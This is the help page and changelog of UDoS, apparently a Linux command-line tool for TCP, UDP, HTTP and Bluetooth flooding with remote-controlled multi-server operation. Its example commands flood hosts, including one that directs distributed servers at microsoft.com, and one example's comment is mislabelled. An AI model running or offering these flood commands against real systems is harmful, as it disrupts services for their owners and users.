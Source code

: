 usage: udos [-h] [--version] [--fork] [--run] [--stop] [--debug]
            [--socket SOCKET] [--client CLIENT] [--server] [--target TARGET]
            [--port PORT] [--bytes BYTES]

UDoS for GNU/Linux - Universal DoS and DDoS testing tool

optional arguments:
  -h, --help       show this help message and exit
  --version        Display help
  --fork           Fork to background
  --run            Execute run on remote server (to be used with --client
                   argument)
  --stop           Stop previous job
  --debug          Debugging mode
  --socket SOCKET  use TCP or UDP connection over ethernet/wireless, default
                   TCP, available TCP, UDP, RFC (bluetooth)
  --client CLIENT  Connect to comma separated client addresses
  --server         turn into a server mode that handles instructions
  --target TARGET  target adress (bluetooth mac or ip adress over
                   ethernet/wireless)
  --port PORT      destination port
  --bytes BYTES    number of bytes to send in one packet

Examples:
udos --target 1.1.1.1 --port 80 --socket tcp --bytes 256 # TCP flood 1.1.1.1:80 with 256 byte packets
udos --target 2.2.2.2 --port 21 --socket udp --bytes 1024 # TCP flood 1.1.1.1:80 with 1024 byte packets
udos --target 00:11:22:33:44  --socket rfc --bytes 668 # Bluetooth ping flood 00:11:22:33:44 with 668 byte packets
udos --target http://localhost  --socket http --port 80  # HTTP GET flood on localhost, make many index.php requests as possible

Server mode examples:
udos --server --debug # Run first server with verboose output, it will listen on all interfaces
udos --server --debug # Run second server on other machine with ip eg. 8.8.8.2

Server's remote controlling:
udos --client "192.168.0.100:8020, 8.8.8.2:8020" --run --target microsoft.com --port 80 --socket http  # set parameters and fire. Commands will be sent to two servers specified in --client

Changelog:
19.06.2014 (v.2.0) <webnull.www@gmail.com>:
    + Rewrited code using Panthera Desktop Framework
    + Server mode

14.08.2011 (v.1.2) <webnull.www@gmail.com>:
    + Added support for Python 3 (now works with Python 2.6, Python 2.7, Python 3.1 and Python 3.2)
    + Added check for l2ping

19.07.2011 (v.1.1.1):
    + Added versioning information

18.07.2011 (v1.1.1):
    * Fixes and optimizations

18.07.2011 (v1.1):
    + Added support for HTTP GET flood
    + Created changelog
